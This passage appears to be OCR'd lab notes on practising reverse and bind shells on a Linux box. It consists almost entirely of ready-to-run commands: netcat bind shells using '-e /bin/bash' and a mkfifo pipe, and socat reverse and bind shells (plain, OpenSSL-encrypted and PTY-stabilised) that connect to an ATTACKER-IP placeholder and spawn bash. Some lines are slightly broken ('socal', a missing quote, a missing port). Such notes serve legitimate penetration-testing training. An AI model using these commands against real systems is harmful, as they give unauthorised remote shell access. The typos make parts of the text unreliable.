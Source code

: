 ```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```

`nc -lnvp -e /bin/bash`

Attacker:

`nc <TARGET-IP> <PORT>`

Target:

`mkfifo /tmp/f; nc -lnvp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

**4. Practice reverse and bind shells on the Linux box with Socat.**

**Reverse shells**

Target:

`socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li"`

Attacker:

`socat TCP-L:<PORT> -`

Encrypted 

Target:

`socat OPENSSL:<ATTACKER-IP>:<PORT>,verify=0 EXEC:"bash -li"`

Attacker:

`socal OPENSSL-LISTEN:<PORT>,cert=<.PEM-FILE>,verify=0 -`

Stable

Target:

`socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

Attacker:

```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```

**Bind shells**

Target:

`socat TCP-L:8008 EXEC:"bash -li`

Attacker:

`socat TCP:<TARGET-IP>:<PORT> -`

Encrypted

Target:

`socat OPENSSL-LISTEN:<PORT>,cert=<.PEM-FILE>,verify=0 EXEC:"bash -li"`

Attacker:

`socat OPENSSL:<TARGET-IP>:<PORT>,verify=0 -`

```